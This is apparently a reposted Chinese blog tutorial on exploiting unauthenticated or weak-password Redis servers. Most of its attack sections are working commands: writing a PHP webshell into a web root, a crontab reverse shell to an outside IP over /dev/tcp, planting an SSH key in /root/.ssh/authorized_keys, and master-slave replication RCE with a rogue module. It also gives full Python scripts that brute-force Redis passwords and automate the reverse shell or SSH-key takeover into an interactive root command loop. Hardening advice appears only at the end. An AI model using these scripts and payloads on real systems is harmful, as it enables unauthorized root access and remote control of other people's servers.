### 前言

转发一篇关于Redis的未授权漏洞利用的总结文章，内容非常详细。



原文链接：https://blog.csdn.net/weixin_39664643/article/details/112966774

### 0x00 Redis介绍

Redis是现在最受欢迎的NoSQL数据库之一，Redis是一个使用ANSI C编写的开源、包含多种数据结构、支持网络、基于内存、可选持久性的键值对存储数据库，其具备如下特性：

- 基于内存运行，性能高效
- 支持分布式，理论上可以无限扩展
- key-value存储系统
- 开源的使用ANSI C语言编写、遵守BSD协议、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API

目前guthub/twitter/微博/阿里/美团/百度等大厂都在使用Redis，Redis 的应用场景包括：缓存系统（“热点”数据：高频读、低频写）、计数器、消息队列系统、排行榜、社交网络和实时系统。

### 0x01 漏洞原理

**redis-4.0.10 之前的版本** Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。

**redis-4.0.10 之后的版本** 默认开启了保护模式，仅允许本地无密码验证连接。如果再想利用，可能就要考虑弱口令和配置错误了。

**提权攻击**：攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的config 命令，可以进行写文件操作，攻击者可以成功将自己的ssh公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器、添加计划任务、写入Webshell等操作。

### 0x02 环境搭建

靶机 ubuntu@server-redis-test ip:123.207.54.204

攻击机：kali2020

Redis: 6.0.6版本

### 0x03 未授权复现

#### 3.1 redis安装

下载、解压、编译

```bash
wget http://download.redis.io/releases/redis-6.0.6.tar.gz  # 下载压缩包
tar -zxvf redis-6.0.6.tar.gz  #解压
cd redis-6.0.6   # 切换目录
make #安装
make install
```

测试验证是否安装成功



#### 3.2 配置文件修改

修改redis.conf配置文件，关闭保护模式使可以远程访问：

```bash
nano redis.conf  # 编辑 配置文件

# 关闭默认情况下安全模式
    bind 127.0.0.1前面加上#号
    protected-mode设为no  

注释：
- 关闭protected-mode模式，此时外部网络可以直接访问
- 开启protected-mode保护模式，需配置bind ip或者设置访问密码
- redis.conf配置文件中daemonize守护线程，默认是NO
```

现实业务中，经常为了方便将配置文件做如上修改。

在4.0.10之前的版本中是不存在安全模式的，不用修改默认配置文件可直接无密码登陆redis

#### 3.3 开启redis服务

```bash
./src/redis-server redis.conf
```



#### 3.4 未授权验证

命令行登陆redis，获取默认的redis目录、和rdb文件名



至此我们实现了未授权访问 Redis 以及读取 Redis 的数据。接下来我们根据服务器开启redis服务时相关权限，尝试通过登陆redis之后的提权技巧。

### 0x04 提权

根据环境使用三种方式进行提权操作

#### 4.1 绝对路径写入webshell

利用条件：

- 服务器开着web服务
- redis有web目录写权限

前置知识点：

```python
config set dir xxxxx # 指定本地数据库存放目录
config set dbfilename xxxxx.rdb # >指定本地数据库文件名，默认值为 dump.rdb
set x “test” # 将变量x的值设为test
```

据此我们可以尝试将webshell假装为数据库文件写入到web路径当中，假设通过网站测试发现了web路径/var/www/xss_platform

```bash
123.207.54.204:6379> config set dir /var/www/xss_platform   # 设置redis目录为 web路径
OK
123.207.54.204:6379> config set dbfilename shell.php    # 设置数据库文件为shell.php
OK
123.207.54.204:6379> set x "<?php phpinfo();?>" # 使用set命令将shell代码写入到shell.php
OK
123.207.54.204:6379> save    #将当前 Redis 实例的所有数据快照(snapshot)以 RDB 文件的形式保存到硬盘,也就是将shell.php文件保存起来
OK
```

此时我们在浏览器中访问刚才保存的shell.php，如下图



若传入的是大马即可立即拿到服务器的权限

#### 4.2 crontab任务反弹shell

利用条件：

- redis以root权限运行

前置知识

**ubuntu下可以利用的cron有以下几个地方：**

- **/etc/crontab：该文件里面的任务计划可以直接执行**
- **/etc/cron.d/\*：该目录下的任意文件都可以被当作任务计划去执行，并且避免了原先任务计划文件被覆盖的情况**
- **/var/spool/cron/crontabs/：该目录下定义的任务计划文件会被执行，不过需要有一个前提，就是该任务计划文件的权限必须为600**

**CentOS下计划任务文件**

- **/etc/crontab：该文件里面的任务计划可以直接执行**
- **/var/spool/cron/root：该文件里面的任务计划可以直接执行**

**这里我们分别使用ubuntu靶机和CentOS靶机进行反弹shell测试**

##### 4.2.1 CentOS系统写入反弹shell

先在攻击机上监听自定义端口

```bash
nc -lvnp 23333
```



然后新开一个终端写入如下命令

```python
123.207.54.204:6379> set  xx   "\n* * * * * /bin/bash -i >& /dev/tcp/118.24.127.188/23333 0>&1\n"
OK
123.207.54.204:6379> config set dir /var/spool/cron/
OK
123.207.54.204:6379> config set dbfilename root
OK
123.207.54.204:6379> save
OK
```

一分钟左右，顺利拿到反弹shell，如下图服务器权限为root



##### 4.2.2 ubuntu系统写入反弹shell

前置知识

linux里面的cron中command执行的shell环境是/bin/sh
而ubuntu中/bin/sh这个软连接指向了dash,而我们反弹shell使用的shell环境是bash

```bash
$ ls -al /bin/sh
lrwxrwxrwx 1 root root /bin/sh -> dash
```

所以我们先将修改软连接指向

```bash
$ ln -s -f bash /bin/sh
$ ls -al /bin/sh
lrwxrwxrwx 1 root root /bin/sh -> bash
```

###### ubuntu下写入/var/spool/cron/crontabs/目录

同样的流程，但这次等了半天却没有成功反弹



为了探究到底什么原因导致没有成功，我们在靶机上查看系统日志，如下图，可以看到是因为写入的root文件的权限不是预期600而报错



查看写入root文件权限为644，因此在/var/spool/cron/crontabs目录下不能进行反弹

###### 写入 **/etc/cron.d** 和 **/etc/crontab** 

经过测试还是无法成功反弹shell

查看日志错误原因是**ERROR (Syntax error, this crontab file will be ignored)**，即redis向任务计划文件里写内容出现乱码而导致的语法错误，而乱码是避免不了的。

总结

- **如果写/etc/crontab和/etc/cron.d，由于存在乱码，语法不识别，会导致ubuntu不能正确识别，导致定时任务失败。**
- **如果写/var/spool/cron/crontabs/root，权限是644，ubuntu不能运行。**

#### 4.3 写入公钥ssh远程登陆服务器

利用条件：

- redis以root权限运行
- 服务器开放了SSH服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器。

前置知识：

```python
SSH 提供了公钥登录，可以省去输入密码的步骤。
● 所谓” 公钥登录”，就是用户将自己的公钥储存在远程主机上。登录的时候，远程主机会向用户发送一段随机字符串，用户用自己的私钥加密后，再发回来。远程主机用事先储存的公钥进行解密，如果成功，就证明用户是可信的，直接允许登录 shell，不再要求密码。
● 这种方法要求用户必须提供自己的公钥。如果没有现成的，可以直接用 ssh-keygen 生成一个。
● 在 $HOME/.ssh/目录下，会新生成两个文件：id_rsa.pub 和 id_rsa。前者是你的公钥，后者是你的私钥。
● 通常这时将公钥传送到远程主机。
● 远程主机将用户的公钥，保存在登录后的用户主目录的 $HOME/.ssh/authorized_keys 文件中。
● 公钥就是一段字符串，只要把它追加在 authorized_keys 文件的末尾就行了。
```

首先生成个人公钥：



然后登陆redis执行如下命令:

```python
root@kali:~# redis-cli -h 123.207.54.204
123.207.54.204:6379> config get dir
1) "dir"
2) "/var/spool/cron"
123.207.54.204:6379> config set dir /root/.ssh/
OK
123.207.54.204:6379> config set dbfilename authorized_keys
OK
123.207.54.204:6379> set x "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDK3jSlBCnkvmDPc+gK2b0ABt3LFEdq5oY1CO2x3Tr/Iiz6Ec4xVo7Hwcefrppo23CMa0zrOxLEhize9xPoBAbCMdqd/0ywRJe9MJzOecayaBRdTgqqaYCNR6Q4W5wpUd1GlRIzgKnhH1d+a9GJMSRRm+UpXRYu1AHMaN5G6hrdbQCHx7k6Rt2qXQ7aTKmMKLdMKeR5gx43Od4dfJ3N7jfTgEzRwyVc0cY0BMSo74U4uCfP0qRyWZHmRz/Vf6L4EEjsaqFDzBtQMZRMN+ZKuHH5elPFWreVxWrYjgLAxxxC/8nJ1qP2dy7EYCxtsCXXBTjRxSekolsswdTtM5ZWCQX8Wtr+u6OTKoXDlRNay5dkOWfY4kw3eBW3FyE6/POaXOtRSi1oPJ9wf0qlC1/YhuYe/8831TPLwKW+X/IJRVCr9kUfR3763Qny0hoxSz9Fyl3zImYwifKIdsdf/pxWsMczapV1eq9KvEfXqfsmP6yvNz7Vv/rZIinYXtbUgGj2kM= root@kali\n\n\n"
OK
123.207.54.204:6379> save
OK
123.207.54.204:6379> 
```

直接利用公钥登录ssh，直接以root权限控制服务器



### 0x05 利用Redis主从复制getshell

#### 5.1 利用条件

- 影响版本：Redis 4.x/5.x (<= 5.0.5)
- 漏洞类型：RCE
- 利用条件：未授权或者弱口令外网访问redis 服务

#### 5.2 漏洞背景

但随着现代的服务部署方式的不断发展，组件化成了不可逃避的大趋势，docker就是这股风潮下的产物之一，而在这种部署模式下，一个单一的容器中不会有除redis以外的任何服务存在，包括ssh和crontab，再加上权限的严格控制，只靠写文件就很难再getshell了，在这种情况下，我们就需要其他的利用手段了。

#### 5.3 前置知识

**主从复制：** 把数据存储在单个Redis的实例中，当读写体量比较大的时候，服务端就很难承受。为了应对这种情况，Redis就提供了主从模式，主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式。

#### 5.4 漏洞原理

- 在2019年7月7日结束的WCTF2019 Final上，LCBC的成员Pavel Toporkov在分享会上介绍了一种关于redis新版本的RCE利用方式，这种利用方式更为通用，危害也更大
- 演讲PPT：https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf
- 具体原理比较复杂，简单来讲就是主机利用主从复制将自定义的redis模块（即exp.so）发送给从机，从机加载模块后就可以执行自定义的命令，从而实现rce

#### 5.5 漏洞复现

首先使用docker搭建主从环境，拉取redis5.0镜像并开启两台容器

```python
root@ubuntu:/# docker run -itd --name redis-master -p 6379:6379 damonevking/redis5.0
2043a247a23403bd141ced59e0351be85de0a16f5bca50d3054893bf8702c102
root@ubuntu:/# docker run -itd --name redis-slave -p 6380:6379 damonevking/redis5.0
75ca3a09077303c7f4c2724dcb68bf86affb12acf6a7afcda26a0b77c0920f46
```

查看正在运行中的容器



如下，将172.17.0.3设置为从机



查看主机172.17.0.2的配置，从机信息已在其中



主从复制环境搭好，拉取攻击EXP：https://github.com/vulhub/redis-rogue-getshell 到本地进入其目录

首先Redis模块的编写

```python
cd RedisModulesSDK/
make
- 会在当前目录下生成exp.so模块
```

接着返回redis-rogue-getshell目录

```python
cd ..
python3 redis-master.py -r 172.17.0.3  -p 6379 -L 172.17.0.1 -P 8888 -f RedisModulesSDK/exp.so -c "id"
```

如下图，成功拿到redis从机的服务器权限



### 0x06 自动化脚本利用

#### 6.1 Redis未授权检测及弱口令扫描脚本

```python
#! /usr/bin/python3
# _*_  coding:utf-8 _*_
import socket
import sys
PASSWORD_DIC=['redis','root','oracle','password','p@aaw0rd','abc123!','123456','admin']
def check(ip, port, timeout):
    try:
        socket.setdefaulttimeout(timeout)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, int(port)))
        s.send("INFO\r\n".encode())
        result = s.recv(1024).decode()
        if "redis_version" in result:
            return u"IP : {}存在未授权访问".format(ip)
        elif "Authentication" in result:
            for pass_ in PASSWORD_DIC:
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect((ip, int(port)))
                payload = "AUTH {}\r\n".format(pass_)
                s.send(payload.encode())
                result = s.recv(1024).decode()
                if '+OK' in result:
                    return u"IP : {}存在弱口令，密码：{}".format(ip, pass_)
    except Exception as e:
        error = e.args
        if error == ('', ):
            error = 'save error'
        print('[-] [{}] : {}'.format(error, ip))
    
if __name__ == '__main__':
    ip=sys.argv[1]
    port=sys.argv[2]
    print(check(ip, port, timeout=10))
```

使用截图~



#### 6.2 Redis提权脚本

```python
import redis
import sys
import paramiko


rsa_pub = 'id_rsa.pub'  # 公钥路径
pkey = 'id_rsa'  # 私钥路径

# 获取公钥内容
def get_id_rsa_pub():
    with open(rsa_pub,'rt') as f:  # r为读，t:windows平台特有的所谓text mode(文本模式）,区别在于会自动识别windows平台的换行符。
        id_rsa_pub = '\n\n\n{}\n\n'.format(f.read())  # 使用前后换行符将公钥与其他redis乱码信息隔开
    return id_rsa_pub


def cron_shell_redis(ip, port, listen_ip, listen_port): 
    shell = "\n* * * * * /bin/bash -i >& /dev/tcp/{}/{} 0>&1\n".format(listen_ip, listen_port)
    try:
        r = redis.Redis(host= ip, port= port, socket_timeout= 5)
        r.set(name='xx', value=shell)
        r.config_set('dir', '/var/spool/cron/')
        print('[ok] : config set dir /var/spool/cron/')
        r.config_set('dbfilename', 'root')
        print('[ok] : config set dbfilename "root"')
        r.save()
        print('[ok] : save') 
        print('[next] : 请在本机进行监听，等待反弹...')
    except Exception as e:
        error = e.args
        if error == ('', ):
            error = 'save error'
        print('[-] [{}] : {}'.format(error, ip))


def ssh_shell_redis(ip, port, ssh_port):
    try:
        r = redis.Redis(host = ip, port = port, socket_timeout = 5)  # 连接redis服务器
        r.config_set('dir', '/root/.ssh')
        print('[ok] : config set dir /root/.ssh')
        r.config_set('dbfilename', 'authorized_keys')
        print('[ok] : config set dbfilename "authorized_keys"')
        id_rsa_pub = get_id_rsa_pub()
        r.set('rsa_pub', id_rsa_pub)   # 写入公钥
        print('[ok] : set rsa_pub')
        r.save()
        print('[ok] : save')    # 保存进数据库
        key = paramiko.RSAKey.from_private_key_file(pkey) # 载入私钥，若私钥有密码时，参数加password
        ssh = paramiko.SSHClient()
        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy()) # 通过公共方式进行认证 (不需要在known_hosts 文件中存在)
        ssh.connect(ip, port=ssh_port, username="root", pkey=key, timeout=5) # 连接漏洞服务器
        ssh_stdin, ssh_stdout, ssh_stderr = ssh.exec_command('id')  
        content = ssh_stdout.readlines()
        if content:
            print("[ok] connecting to {} : {}".format(ip, content[0]))
        while True:
            command = input('{} >>>'.format(ip))  # 输入任意命令
            ssh_stdin, ssh_stdout, ssh_stderr = ssh.exec_command(command)
            contents = ssh_stdout.readlines()
            for content in contents:
                print(content)
    except Exception as e:
        error = e.args
        if error == ('', ):
            error = 'save error'
        print('[-] [{}] : {}'.format(error, ip))

# def test_redis():
#     r = redis.Redis(host = '123.207.54.204', port = 6379, socket_timeout = 5)
#     r.config_set('dir', '/root/.ssh')
#     print('[ok] : config set dir /root/.ssh')


if __name__ == "__main__":
    if len(sys.argv) > 3 and len(sys.argv) < 6:
        ip = sys.argv[1]
        port = sys.argv[2]
        if len(sys.argv) == 5:
            cron_shell_redis(ip, port, sys.argv[3], sys.argv[4])
        else:
            ssh_shell_redis(ip, port, sys.argv[3])
    else:
        print('输入参数有误！')
```

使用方法：

反弹shell:

```python
python redis_shell.py redis_server_ip redis_port listen_ip listen_port
```

写入ssh公钥：

```python
python redis_shell.py redis_server_ip redis_port ssh_port
```

反弹shell~



写入ssh公钥，拿到root权限执行命令



### 0x07 安全建议

1. 禁用高危命令

```python
在 redis.conf 文件中直接将危险命令置空
rename-command FLUSHALL ""
rename-command CONFIG ""
rename-command EVAL ""

或者改变其名字
rename-command FLUSHALL "name1"
rename-command CONFIG "name2"
rename-command EVAL "name3"
```

1. 以低权限运行 Redis 服务

```python
- redis默认使用用户权限启动的，降权可以避免getshell后直接就是root
groupadd -r redis   
useradd -r -g redis redis
```

1. 为 Redis 添加密码验证

```python
- 修改 redis.conf 文件，添加
requirepass mypassword
```

1. 做好访问控制，在不需要接外网时，就bind本地。

```python
- 修改 redis.conf 文件：
bind 127.0.0.1
```

1. 修改默认端口
2. 设置隐藏文件属性，不允许修改authorized_keys

```python
- 将 authorized_keys 的权限设置为对拥有者只读，其他用户没有任何权限：
chmod 400 ~/.ssh/authorized_keys
- 保证权限不被更改
chattr +i ~/.ssh/authorized_keys
chattr +i ~/.ssh
```

1. 设置防火墙策略，只允许特定IP连接

### 参考

- [Redis 未授权访问漏洞利用总结](http://www.alloyteam.com/2017/07/12910/)
- [redis未授权访问漏洞利用总结](https://p0sec.net/index.php/archives/69/)
- [SSH 使用密钥登录并禁止口令登录实践](https://wsgzao.github.io/post/ssh/)
- [Redis 源码阅读：当你输入 get/set 命令的时候，Redis 做了什么](https://juejin.im/entry/6844903619456663560)
- [Redis未授权访问漏洞之ubuntu反弹shell问题](http://www.vkxss.top/2019/05/28/渗透测试-Redis未授权访问漏洞之ubuntu反弹shell问题/index.html)
- [解决ubuntu crontab反弹shell失败的问题](https://m3lon.github.io/2019/03/18/解决ubuntu-crontab反弹shell失败的问题/)
- [记一次失败漏洞利用的经历](https://www.dazhuanlan.com/2019/11/18/5dd20bda178db/)

